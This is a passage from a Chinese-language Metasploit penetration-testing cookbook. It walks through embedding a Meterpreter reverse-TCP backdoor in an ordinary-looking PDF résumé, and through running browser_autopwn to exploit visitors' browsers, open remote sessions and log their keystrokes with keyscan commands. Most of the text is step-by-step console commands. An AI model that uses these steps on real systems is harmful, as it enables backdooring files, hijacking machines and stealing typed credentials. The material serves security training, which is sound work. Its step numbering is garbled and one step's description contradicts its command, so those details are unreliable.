    
    
6.  设置我们想要生成的 PDF 文件名称：

    ```
    set FILENAME evildocument.pdf
    ```
    
7.  设置 INFILENAME 选项。它是你打算使用的 PDF 文件的位置。这里，我使用桌面上的简历。

    ```
    set INFILENAME /root/Desktop/willie.pdf
    ```
    
    > 要注意，这个模块的所有选项都是可选的，除了`INFILENAME `。
    
8.  执行漏洞利用：

    ```
    Exploit
    ```
    
    
    
### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 创建了包含 Meterpreter 后门的 PDF 文件。我们以启动控制台并搜索所有可用的 PDF 漏洞来开始。在选择 PDF 内嵌模块之后，我们设置选项并执行漏洞利用，这让我们在正常的 PDF 中埋下后门程序。Metasploit 会生成带有 Windows 反向 TCP 载荷的 PDF。当你的目标打开 PDF 文件时，Meterpreter 会开启答复并激活会话。

## 6.10 实现 browser_autopwn

浏览器 Autopwn 是 Metasploit 提供的辅助模块，在受害者访问网页时，让你能够自动化对它们的攻击。浏览器 Autopwn 在攻击之前指定客户端的指纹识别，也就是说他不会对 IE 7 尝试利用 Firefox 的漏洞。基于它的浏览器判断，它决定最适于实施哪个漏洞利用。

### 准备

需要互联网或内部网络的连接。

### 操作步骤

让我们通过打开终端窗口来开始这个秘籍：

1.  打开终端窗口。

2.  启动 MSFCONSOLE：

    ```
    msfconsole 
    ```
    
3.  搜索可用的 `autopwn` 模块。

    ```
    msfconsole autopwn
    ```
    
    
    
4.  使用` browser_autopwn `模块：

    ```
    Use auxiliary/server/browser_autopwn
    ```
    
5.  设置我们的载荷，这里我们使用 Windows 反向 TCP：

    ```
    set payload windows/meterpreter/reverse_tcp 
    ```
    
6.  显示可用于该载荷类型的选项。

    ```
    show options
    ```
    
7.  设置反向连接所使用的 IP。这里，该 PC 的 IP 地址为` 192.168.10.109`。

    ```
    set LHOST 192.168.10.109
    ```
    
8.  下面，我们打算设置 URIPATH，这里我们使用`"filetypes"`（带引号）：

    ```
    set URIPATH "filetypes" 
    ```
    
9.  最后，我们执行漏洞利用：

    ```
    exploit
    ```
    
0.  Metasploit 会在 IP 地址 <http://[Provided IP Address]:8080> 处执行漏洞利用。

1.  当访问者访问这个地址时，`browser_autopwn`模块尝试连接用户的机器来建立远程会话。如果成功的话，Meterpreter 会确认这个会话。使用会话命令来激活它：

    ```
    session –I 1
    ```
    
2.  为了显示我们可以使用的 Meterpreter 命令列表，输入`help`。

    ```
    help
    ```
    
3.  会显示可用命令的列表。这里，我们启动击键顺序扫描：

    ```
    keyscan_start 
    ```
    
4.  为了得到受害者机器上的击键顺序，我们键入`keyscan_start`命令：

    ```
    keyscan_dump
    ```
    
### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 来执行 browser_autopwn 漏洞利用。我们以启动控制台并搜索所有已知的`autopwn`模块开始。在喧嚣`autopwn`模块之后，我们将载荷设置为`windows_reverse_tcp`。这允许我们在利用成功时得到返回的链接。一旦受害者访问了我们的网页，漏洞利用就成功了，我们就能得到 Meterpreter 活动会话。
